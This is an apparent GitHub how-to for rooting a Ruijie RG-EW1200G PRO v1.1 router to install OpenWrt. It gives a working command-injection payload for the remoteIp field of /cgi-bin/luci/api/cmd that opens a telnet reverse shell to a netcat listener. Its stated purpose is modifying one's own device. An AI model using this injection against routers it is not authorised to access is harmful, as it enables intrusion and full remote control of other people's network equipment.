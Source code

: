 Instructions to gain rootshell on Ruijie RG-EW1200G PRO v1.1 routers for openwrt installation

Source:  
https://gist.github.com/ZIKH26/18693c67ee7d2f8d2c60231b19194c37  
https://bbs.kanxue.com/thread-280448.htm

**Disclaimer: Proceeding with these instructions using the firmware provided may cause your Ruijie RG-EW1200G PRO v1.1 router to brick.
Please read through carefully and exercise extreme caution.
By using any of the resources and instructions provided, all risks and responsibilities will be solely on the user.
It is recommended to save and backup your existing configuration and working firmware before proceeding any further.**

Specific firmware version (EW_3.0(1)B11P219_EW1200GI_10182113) is required for a command injection vulnerability using http post on /cgi-bin/luci/api/cmd via the remoteIp field.
The working firmware for this is as attached.
[RG-EW1200G PRO Wireless Routers EW_3.0(1)B11P219 firmware.zip](https://github.com/user-attachments/files/18793087/RG-EW1200G.PRO.Wireless.Routers.EW_3.0.1.B11P219.firmware.zip)

Step by step instructions:
1. Make sure the working firmware (EW_3.0(1)B11P219_EW1200GI_10182113) is installed on your Ruijie RG-EW1200G PRO v1.1 router before proceeding. Just login to the router's UI on a web browser and use the upgrade function.
2. Install Mozilla Firefox and HackBar extension https://addons.mozilla.org/en-US/firefox/addon/hackbar/
3. Download nc64.exe from https://github.com/int0x33/nc.exe/
4. Place nc64.exe at an easy to access drive or folder, for example drive D
5. Open windows powershell, navigate to drive D with command 'cd D:'  
   ![image](https://github.com/user-attachments/assets/3e6156c5-4661-4561-bb79-39dda7f195c9)
6. Start netcat lookup on port 666 with command '.\nc64.exe -lvvp 6666'
7. Go to your Ruijie RG-EW1200G PRO v1.1 router UI page by typing in the router IP on Mozilla Firefox
8. Login and open up the developer console (F12) and select the network tab  
   ![image](https://github.com/user-attachments/assets/5501998d-ffee-418f-a2a6-a0f40761c369)
9. Look for the auth code and copy the full URL with path /cgi-bin/luci/api/cmd as shown above
10. On the developer console top tab, select HackBar (might have to expand the tab to see HackBar)
11. Paste the URL copied in step 9 in the URL form, enable Use POST method and select application/json for post type  
    ![image](https://github.com/user-attachments/assets/68cc58f5-d32e-4de6-9d81-2c3470d276c0)
12. Enter the below code into the Body content and click EXECUTE
```
{
    "method": "devConfig.get",
    "params": {
        "module": "123",
        "remoteIp": "$(mkfifo /tmp/test;telnet <your windows machine ip> 6666 0</tmp/test|/bin/sh > /tmp/test)",
        "data": {
            "kkk": "abc"
        }
    }
}
```
13. If everything is executed correctly, the tab should load and send out the http post  
    ![image](https://github.com/user-attachments/assets/7b66c4c8-09a7-4fb9-8abf-d8af139035c1)
14. On the powershell window, there should be a response from the netcat lookup  
    ![image](https://github.com/user-attachments/assets/1c96ac98-a5be-4d12-a167-648be028b629)
15. Type 'pwd' then enter, followed by 'ls' to list the exposed folders and lastly 'id' to check for root access
16. If the rootshell process is done correctly, the response should be similar to the above image

Extra Notes:
1. Make sure port 6666 is open on all firewalls on your network
2. This should work on linux as well using 'nc -lvvp 6666' but it didn't work for my case on both Proxmox and Ubuntu and currently the reasons are unknown
3. If the upgrade feature to install the specific firmware doesn't work, try resetting the router and try again

